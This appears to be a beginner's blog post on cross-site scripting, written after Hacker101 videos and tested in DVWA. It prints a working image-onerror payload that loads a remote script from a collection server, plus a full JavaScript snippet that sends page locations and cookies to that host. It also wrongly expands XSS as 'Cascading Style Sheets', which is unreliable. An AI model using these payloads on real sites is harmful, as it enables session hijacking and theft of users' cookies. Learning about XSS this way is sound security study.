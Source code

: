 ```yaml
---
layout: title
title: What it XSS
date: 2018-12-17 09:11:06
tags: hacker101, security, XSS
categories: Hack
---
```


After following the hack101 video tutorial for a while. I want to write some note about XSS. 

## What is XSS

XSS(Cross Site Scripting) is the mix abbreviation for Cascading Style Sheets, CSS. Though it seems out of date at the moment. But to some beginner just like me, it's a good way to experience the fun of looking bugs. 

## XSS detecting
People can deploy a DVWA as a dev environment for testing the XSS.

At the lowest security level of DVWA, the client owns no filter to any users input. It means, input is the output. 

The simplest XSS detecting is the `alert(1)`. Whether create a div or inject a `<script>alert(1)</script>`, the things we focus on is compile the code. 

## How hacker use XSS
Sometimes, when the security developer found that bug, he will terminate the XSS, that is one of his duty. But as a cursorily, he needs to use those bug to find why a way to hackin the inside. 
If the website exists XSS loophole, then it must be able to run the js code.

e.g. we can get the cookies on the page by enter alert(document.cookie). But most of time, hacker don't just inject a snippet of code, since it is no reason to use their own cookie. But they can send the cookies to a platform. Like XSSer, receive the XSS from all over the world. 

When xsser has done, hacker can insert the script into page like this: 

```
<img   onerror="s=createElement('script');body.appendChild(s);s.src='http://192.168.1.103/xss/SMA9ST';" src="x">
```

This is a img tag, the src is point to `x`. Obviously, this address is not exists. So it will run `onerror`. This function will generate a script tag, then point the new script tag to the xsser platform, which we builded before. Once the code request to the xsser. It will get the code, e.g.

```
(function() {
		(new Image()).src = 'http://192.168.1.103/xss/index.php?do=api&id=SMA9ST&location=' + escape((function() {
			try {
				return document.location.href
			} catch (e) {
				return ''
			}
		})()) + '&toplocation=' + escape((function() {
			try {
				return top.location.href
			} catch (e) {
				return ''
			}
		})()) + '&cookie=' + escape((function() {
			try {
				return document.cookie
			} catch (e) {
				return ''
			}
		})()) + '&opener=' + escape((function() {
			try {
				return (window.opener && window.opener.location.href) ? window.opener.location.href : ''
			} catch (e) {
				return ''
			}
		})());
	})();
```

In this code snippet, it also generate a image object and request a xsser project. Than we got the location information and cookies. 

Everytime when people open XSS page, the browser will run that kind of code, it mask as a image to send data to xsser.

That is the simple usage of XSS.

